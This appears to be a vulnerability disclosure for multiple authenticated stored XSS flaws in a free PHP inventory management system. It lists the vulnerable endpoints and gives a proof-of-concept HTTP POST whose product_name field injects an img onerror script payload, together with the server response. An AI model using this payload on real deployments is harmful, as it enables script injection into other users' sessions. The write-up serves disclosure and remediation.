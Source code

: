 ﻿
**Exploit Title:** Free and Open Source inventory management system php - Multiple Stored XSS  <br>
**Date**: 4/08/2023 <br>
**Exploit Author:** y3thu <br>
**Vendor Homepage:** https://www.sourcecodester.com/users/mayurik <br>
**Software Link:** https://www.sourcecodester.com/php/16741/free-and-open-source-inventory-management-system-php-source-code.html <br>
**Attack Vector:** WEB, Network <br>
**Testeted on:** Windows 10  using XAMPP <br>

**Authenticated stored XSS** <br>
**Vulnerable Endpoints:** `/index.php?page=add_expense ,/index.php?page=add_product,/index.php?page=add_stuff, ...` <br>
**Affected endpoints:** `/index.php?page=sell_list,/index.php?page=buy_list,/index.php?page=product_list,/index.php?page=exspense_list,/index.php?page=staff_list,/index.php?page=dashboard,/index.php?page=category` <br>
![image](https://github.com/yethu123/XSS-and-SQL-Injection-on-Free-and-Open-Source-inventory-management-system/assets/29069905/3e20f2be-5083-4e59-9530-7ae4b4f7dcfc) <br>

**POC**

    POST /ample/app/action/add_product.php HTTP/1.1
    Host: localhost
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/115.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded; charset=UTF-8
    X-Requested-With: XMLHttpRequest
    Content-Length: 132
    Origin: http://localhost
    Connection: close
    Referer: http://localhost/ample/index.php?page=add_product
    Cookie: PHPSESSID=g11ukg4bi8dvr9q9uqvsslpm3t
    Sec-Fetch-Dest: empty
    Sec-Fetch-Mode: cors
    Sec-Fetch-Site: same-origin
    
    product_name=%3Cimg+src%3Dx+onerror%3Dprompt(document.domain)%3E&brand=test&p_catagory=2&product_source=buy&sku=aaa&alert_quantity=3


Response

    HTTP/1.1 200 OK
    Date: Fri, 04 Aug 2023 08:52:04 GMT
    Server: Apache/2.4.54 (Win64) OpenSSL/1.1.1p PHP/7.4.30
    X-Powered-By: PHP/7.4.30
    Expires: Thu, 19 Nov 1981 08:52:00 GMT
    Cache-Control: no-store, no-cache, must-revalidate
    Pragma: no-cache
    Content-Length: 3
    Connection: close
    Content-Type: text/html; charset=UTF-8
    
    yes

![image](https://github.com/yethu123/XSS-and-SQL-Injection-on-Free-and-Open-Source-inventory-management-system/assets/29069905/a583971a-9c90-4caf-aeb9-b96c4189996d)
